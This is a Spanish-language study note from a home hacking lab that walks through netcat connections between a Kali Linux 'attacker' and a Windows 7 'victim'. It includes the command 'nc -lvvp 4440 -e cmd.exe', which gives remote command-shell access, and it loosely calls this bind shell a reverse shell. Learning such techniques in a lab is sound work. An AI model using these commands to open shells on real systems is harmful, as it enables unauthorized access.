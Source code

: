 Una Conexion del lado del cliente es muy parecida a la Conexion Directa porque es cuando el atacante se conecta a la victima pero la victima nos otorga permisos para usar su terminal desde nuestra maquina.

Nuestro Kali Linux es nuestro S.O como hacker, la maquina del atacante.

El Windows 7 Es la victima de la victima.

Entonces lo que vamos a hacer es una conexion directa que seria que con nuestro Kali nos conectamos al W7.

Ahora lo que vamos a hacer desde w7 es poner el comando

```sh
#nc -lvvp "puerto"
nc -lvvp 4447

# lo que hace la flag lvvp es poner netcat en escucha en el puerto 4447
```

![[Pasted image 20231123105506.png]]
`Tambien utilice ipconfig para poder saber mi ip para conectarme desde mi kali linux`
Ahi abrimos el puerto 4447 y es la puerta para que el atacante pueda entrar.

Ahora desde Kali linux lo que vamos a hacer es conectarnos mediante netcat.


```sh
#nc ip-victima
nc 192.168.0.45 4447
```

Una vez ejecutemos ese comando va a parecer que no paso nada pero si vamos a la maquina de la victima y hacemos una captura de lo que esta pasando es que tenemos un dispositivo conectado en nuestra maquina.

![[Pasted image 20231123105748.png]]

Ya en este momento hay una comunicacion directa  pero no se pueda hacer nada.
Así que ahora vamos a realizar la comunicación del lado del Cliente , para eso agregamos la flag -e que sirve para ejecutar un archivo, .exe, script lo que  fuere, la cosa cambia por ejemplo.

Desde la maquina victima escribimos ese comando
```sh
nc -lvvp 4440 -e cmd.exe
```

![[Pasted image 20231123110812.png]]

Abriendo el puerto 4440 y con la flag y el cmd.exe lo que estamos haciendo es que cuando ingrese el atacante , tenga acceso a nuestra linea de comandos desde su maquina. 
Estamos haciendo una reverse shell.

![[Pasted image 20231123111051.png]]

Todo ese comando desde la maquina del atacante, y miren lo que pasa en la maquina victima.
![[Pasted image 20231123111125.png]]

Justamente se crea la carpeta que hicimos desde la maquina atacante.

